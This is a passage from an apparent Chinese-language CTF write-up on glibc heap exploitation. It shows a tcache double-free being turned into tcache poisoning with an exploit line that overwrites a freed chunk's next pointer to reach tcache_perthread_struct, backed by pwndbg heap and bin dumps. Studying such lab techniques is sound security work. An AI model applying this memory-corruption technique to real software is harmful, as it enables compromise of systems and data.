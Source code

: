 ```c
```

由于之前tcache中有两个free_chunk（实际上是同一个），因此申请的空间从tcache_bin中移出，这就造成了tcachebins中现在的free_chunk只有一个，但是这个free_chunk和移出的chunk是同一个堆块。so，这个chunk仍然处于存在next指针。

```python
edit(1, p64(heap_base - 0x250))
```

然后编辑这个chunk中的next指针，结果如下所示：

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x251

Free chunk (tcache) | PREV_INUSE
Addr: 0x555555757250
Size: 0x61
fd: 0x555555757010

Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
0x555555757010:	0x0000000100000000	0x0000000000000000
.......(省略内容均为空)
0x555555757070:	0x0000555555757260	0x0000000000000000
.......(省略内容均为空)
0x555555757250:	0x0000000000000000	0x0000000000000061 #chunk0（chunk1）
0x555555757260:	0x0000555555757010	0x000000000000000a
    			#next指针已被修改
    			#现在指向tcache_perthread_struct_data
.......(省略内容均为空)
0x5555557572b0:	0x0000000000000000	0x0000000000020d51 #top_chunk
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000005000000000	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757260
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
pwndbg> bin
tcachebins
0x60 [  1]: 0x555555757260 —▸ 0x555555757010 ◂— ...
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
```